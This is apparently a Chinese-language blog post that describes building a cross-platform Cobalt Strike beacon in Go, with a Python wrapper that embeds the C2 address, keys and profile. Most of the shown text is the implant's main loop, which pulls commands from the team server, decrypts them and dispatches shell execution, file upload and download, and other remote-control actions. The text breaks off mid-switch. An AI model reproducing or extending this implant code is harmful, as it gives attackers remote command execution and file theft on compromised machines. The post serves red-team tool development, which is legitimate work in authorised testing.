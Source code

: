   

 **0x02 跨平台http/https Beacon**

  

根据上面我们对cs的http/https
beacon的整个通信过程的研究，完全能自己编写一个跨平台的beacon，这里我们选择了golang作为开发语言，虽然编译之后很大，但是跨平台的性很好。  

  

但是我们想将Beacon的回连地址、加密的公钥以及profile的配置都编译到golang程序中，这样的话每次生成跨平台Beacon的时候都需要修改源代码然后再编译，所以我们在golang源码外层再进行了一次python封装，它的作用如下：

  

1\. 解析profile，并将相应的值填入golang源码中。

2\. 根据.cobaltstrike.beacon_keys计算公钥，并填入golang源代码中。

3\. 实现golang项目的交叉编译。具体的流程图设计如下：

![](https://gitee.com/fuli009/images/raw/master/public/20220218134457.png)

  

实现的部分代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func main() {    //初始化，包括：生成随机的beaconid、生成随机的global key(aes+hashmac)、创建get和post的url以及对应的header    config.InitC2Profile()    //组装和封装源数据，并循环向ts发送，直到成功    ok := packet.FirstBlood()    if ok {        for {            time.Sleep(time.Duration(config.Sleep) * time.Millisecond)//sleep时间            //获取命令数据            respBytes := packet.PullCommand()            if respBytes != nil {                totalLen := len(respBytes)                if totalLen > config.GetAppend + config.GetPrepend {                    //删除prepend                    if config.GetPrepend !=0 {                        respBytes = respBytes[config.GetPrepend:]                    }                    //删除append                    if config.GetAppend !=0 {                        respBytes = respBytes[:len(respBytes) - config.GetAppend]                    }                    //decode base64                    decryptBytes, base64Err := base64.StdEncoding.DecodeString(string(respBytes))                    if base64Err != nil {                        fmt.Println("Exception: ",base64Err.Error())                        continue                    }                    respBytes = decryptBytes  
                        //去除HashMac                    restBytes := respBytes[:len(respBytes)-crypt.HmacHashLen]                    //aes解密                    decrypted,decryptErr := packet.DecryptPacket(restBytes)                      if decryptErr != nil {                        fmt.Println("Exception: ",decryptErr.Error())                        continue                    }  
                        //读取命令数据                    lenBytes := decrypted[4:8]                    packetLen := util.ReadInt(lenBytes)                    decryptedBuf := bytes.NewBuffer(decrypted[8:])                    for {                        if packetLen <= 0 {                            break                        }                        //解析命令数据                        cmdType, cmdBuf, parseErr := packet.ParsePacket(decryptedBuf, &packetLen)                        if parseErr == nil{                            if cmdBuf != nil {                                var finalPacket []byte = nil                                //执行对应的命令                                switch cmdType {                                case config.CMD_TYPE_SHELL:                                    go command.Shell(cmdBuf)  
                                    case config.CMD_TYPE_UPLOAD_START: //10                                    go command.Upload(cmdBuf)  
                                    case config.CMD_TYPE_UPLOAD_LOOP: //67                                    go command.Upload(cmdBuf)  
                                    case config.CMD_TYPE_DOWNLOAD: //11                                    go command.Download(cmdBuf)  
                                    case config.CMD_TYPE_CD: //5                                    go command.CD(cmdBuf)  
                                    case config.CMD_TYPE_SLEEP: //4                                    sleep := util.ReadInt(cmdBuf[:4])                                    config.Sleep = int(sleep)  
                                    case config.CMD_TYPE_PWD: //39                                    go command.PWD()  
                                    case config.CMD_TYPE_EXIT:                                    go command.Exit()  
                                    case config.CMD_TYPE_PORTFWD:                                    finalPacket = packet.MakePacket(13,[]byte("Please use shell rportfwd command"))                                    packet.PushResult(finalPacket)  
